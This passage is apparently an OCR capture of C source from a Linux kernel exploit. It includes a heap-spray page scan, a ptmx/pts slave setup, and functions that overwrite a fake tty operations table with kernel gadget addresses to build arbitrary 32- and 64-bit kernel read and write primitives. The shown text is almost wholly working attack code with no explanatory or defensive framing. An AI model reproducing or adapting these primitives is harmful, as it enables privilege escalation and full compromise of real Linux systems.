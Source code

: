 ```
    int i;
    for (i = 0; i &lt; SPRAY_CNT; i++) {
        if (memcmp(sprayed_pages[i], zeropage, PAGESIZE)) {
            return sprayed_pages[i];
        }
    }
    return NULL;
}

int get_ptmx_slave(int ptmx_fd) {
    const char *pts_name;
    if (grantpt(ptmx_fd) &lt; 0) {
        perror("grantpt");
        exit(-1);
    }
    if (unlockpt(ptmx_fd) &lt; 0) {
        perror("unlockpt");
        exit(-1);
    }

    pts_name = (const char *)ptsname(ptmx_fd);
    return Open(pts_name, O_RDWR|O_NOCTTY);
}

unsigned int sys_ioctl(int fd, int cmd, unsigned long aux) {
    asm volatile("mov $16, %rax");
    asm volatile("syscall");
}

void write32(unsigned int what, unsigned long where) {
    ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
    ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
    ftable[12] = w_gadget;//ioctl
    lseek(fd, 0, SEEK_SET);
    Write(fd, ftable, 0x400);
    ioctl(slave_fd, (what), (where)); 
}

unsigned int read32(unsigned long where) {
    ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
    ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
    ftable[12] = r_gadget;
    lseek(fd, 0, SEEK_SET);
    Write(fd, ftable, 0x400);
    return sys_ioctl(slave_fd, 0x1, where - 0x28); 
}

void write64(unsigned long what, unsigned long where) {
    unsigned long part;
    part = what &amp; 0xFFFFFFFF;
    write32((unsigned int )part, where);
    part = what &gt;&gt; 32;
    write32((unsigned int )part, where + 4);
}

unsigned long read64(unsigned long where) {
    unsigned long p1, p2;
    p1 = read32(where);
    p2 = read32(where + 4);
    return p1 | (p2 &lt;&lt; 32);
}

int check_page(unsigned long addr) {
```